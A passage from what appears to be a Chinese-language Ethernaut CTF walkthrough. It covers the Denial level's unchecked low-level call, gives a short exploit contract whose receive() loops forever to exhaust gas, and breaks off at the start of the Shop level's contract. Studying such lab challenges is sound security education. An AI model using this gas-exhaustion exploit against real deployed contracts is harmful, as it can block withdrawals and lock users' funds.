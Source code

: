```solidity
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

### 分析

重点就在` withdraw() `这个函数，无论` partner.call{value: amountToSend}(""); `这句是否执行成功，` payable(owner).transfer(amountToSend); `都会执行，除非gas费用耗尽；

所以我们只需实现一个合约，将其设置为partner，其中` receive() `中实现一个无限循环；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp{
    receive() external payable { 
        while(true){}
    }
}
```

将其部署，并设置成partner即可；



## Level_21.Shop

要求：

> 以很低的价格购买到商品；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);
```